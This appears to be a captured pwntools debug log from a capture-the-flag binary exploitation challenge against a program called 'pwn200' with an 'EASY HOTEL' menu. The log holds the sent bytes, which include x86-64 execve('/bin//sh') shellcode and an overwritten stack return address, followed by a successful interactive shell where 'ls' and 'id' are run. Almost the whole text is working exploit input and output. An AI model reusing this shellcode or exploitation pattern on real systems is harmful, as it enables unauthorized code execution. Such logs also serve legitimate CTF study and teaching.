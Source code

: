 ```c
    00000000  00 31 f6 48  bb 2f 62 69  6e 2f 2f 73  68 56 53 54  │·1·H│·/bi│n//s│hVST│
    00000010  5f 6a 3b 58  31 d2 0f 05  00 00 00 00  00 00 00 00  │_j;X│1···│····│····│
    00000020  00 00 00 00  00 00 00 00  41 00 00 00  00 00 00 00  │····│····│A···│····│
    00000030  00 00 00 00  00 00 00 00  f0 fb e4 ce  fe 7f 00 00  │····│····│····│····│
    00000040
[DEBUG] Received 0x4d bytes:
    '\n'
    '=======EASY HOTEL========\n'
    '1. check in\n'
    '2. check out\n'
    '3. goodbye\n'
    'your choice : '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x52 bytes:
    'out~\n'
    '\n'
    '=======EASY HOTEL========\n'
    '1. check in\n'
    '2. check out\n'
    '3. goodbye\n'
    'your choice : '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0xa bytes:
    'how long?\n'
[DEBUG] Sent 0x3 bytes:
    '48\n'
[DEBUG] Received 0x19 bytes:
    'give me more money : \n'
    '48\n'
[DEBUG] Sent 0x20 bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  00 00 00 00  00 00 00 00  c1 fb e4 ce  fe 7f 00 00  │····│····│····│····│
    00000020
[DEBUG] Received 0x51 bytes:
    'in~\n'
    '\n'
    '=======EASY HOTEL========\n'
    '1. check in\n'
    '2. check out\n'
    '3. goodbye\n'
    'your choice : '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[*] Switching to interactive mode
[DEBUG] Received 0xa bytes:
    'good bye~\n'
good bye~
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x1b bytes:
    'exp.py\tpwn200\ttest  test.c\n'
exp.py    pwn200    test  test.c
$ id
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x81 bytes:
    'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)\n'
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```